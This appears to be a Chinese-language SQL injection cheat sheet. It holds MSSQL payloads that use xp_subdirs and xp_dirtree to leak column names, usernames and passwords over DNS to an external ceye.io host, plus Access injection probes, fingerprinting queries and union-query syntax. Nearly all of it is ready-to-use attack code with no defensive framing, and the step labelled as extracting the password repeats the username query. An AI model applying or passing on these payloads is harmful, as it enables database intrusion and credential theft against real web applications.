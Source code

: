 ```mssql
exec('master..xp_subdirs "//'%2B@a%2B'.z.xxx.ceye.io\\a" ');
# 22库中的 DB_Admin 表有11条数据
declare @a varchar(1024);
set @a=(select count(*) from "22".dbo.syscolumns where id = object_id
('DB_Admin'));
exec('master..xp_subdirs "//'%2B@a%2B'.z.xxx.ceye.io\\a" ');
# 爆DB_Admin字段
http://127.0.0.1/info.aspx?id=1;
declare @a varchar(1024);
set @a=(SELECT top 1 "22".dbo.syscolumns.name FROM
"22"..syscolumns,"22"..sysobjects where "22"..syscolumns.id =
"22"..sysobjects.id AND "22"..sysobjects.name='DB_Admin' and
"22"..syscolumns.name not in (SELECT top 3 "22"..syscolumns.name FROM
"22"..syscolumns,"22"..sysobjects where "22"..syscolumns.id =
"22".dbo.sysobjects.id AND "22"..sysobjects.name='DB_Admin'));
exec('master..xp_subdirs "//'%2B@a%2B'.z.xxx.ceye.io\\a" ');
# 数据 帐号 admin
http://127.0.0.1/info.aspx?id=1;
declare @a varchar(1024);
set @a=(select top 1 UserName from DB_Admin where username not in (select top
0 username from DB_Admin));
exec('master..xp_subdirs "//'%2B@a%2B'.z.xxx.ceye.io\\a" ');
# 数据 密码 123456
declare @a varchar(1024);
set @a=(select top 1 UserName from DB_Admin where username not in (select top
0 username from DB_Admin));
exec('master..xp_subdirs "//'%2B@a%2B'.z.xxx.ceye.io\\a" ');
-----------------------------------------------------------------------------------------------------
http://127.0.0.1/info.aspx?id=1;declare @a varchar(1024);
set @a='\\'%2bmaster.dbo.fn_varbintohexstr(CONVERT( varbinary(max), (SELECT top 1 库名.dbo.syscolumns.name FROM 库名..syscolumns,库名..sysobjects where 库名..syscolumns.id = 库名..sysobjects.id AND 库名..sysobjects.name='表名' and 库名..syscolumns.name not in (SELECT top 0 库名..syscolumns.name FROM 库名..syscolumns,库名..sysobjects where 库名..syscolumns.id = 库名.dbo.sysobjects.id AND 库名..sysobjects.name='表名'))))%2b'.z.xxx.ceye.io';
exec xp_dirtree @a;
```



## Access

### **Access_联合查询**

```access
# Access 只能单纯的注入拿数据,没有 information_schema 且没有库的概念, 一个文件就是一个数据库, 没有时间盲注和报错注入
# 常用函数
MID(str,start,length) 	# 可以用来提取母字符串中一部分特定的子字符串。
ASC() 	# 可以返回参数中字符对应的ASCII值
IIF(condition,true,false)
top 1	# limit函数的替代
# 判断数据库类型
# 返回正常为Access数据库
?id=1 and exists(select * from msysobjects)>0
# 返回正常位MySQL数据库
?id=1 and exists(select * from sysobject)>0
# 使用 exists 采解表名和列名
# 联合查询时, 结尾必须加上 from 表或列名
?id=1 union 1,2, select 4,5,6 from 表或列名
# 判断注入
?id=1' 	# 出错
?id=1" 	# 出错
?id=1 	# 未出错
?id=5-1 	# 未出错,注入类型为数字型
```